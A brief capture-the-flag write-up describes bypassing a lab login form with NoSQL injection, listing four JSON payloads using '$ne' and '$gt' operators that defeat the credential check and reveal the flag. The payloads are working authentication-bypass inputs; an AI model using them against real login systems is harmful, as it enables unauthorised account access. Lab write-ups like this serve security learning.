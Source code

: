 # No Sql Injection

![image.png](image.png)

A simple login form was given.

![image.png](image%201.png)

No SQL injection payload required.

***Reference:*** [PayloadsAllTheThings – NoSQL Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/NoSQL%20Injection/README.md)

JSON data;

```php
{"username": {"$ne": null}, "password": {"$ne": null}}
{"username": {"$ne": "foo"}, "password": {"$ne": "bar"}}
{"username": {"$gt": undefined}, "password": {"$gt": undefined}}
{"username": {"$gt":""}, "password": {"$gt":""}}
```

![image.png](image%202.png)

The flag is revealed in the response section.


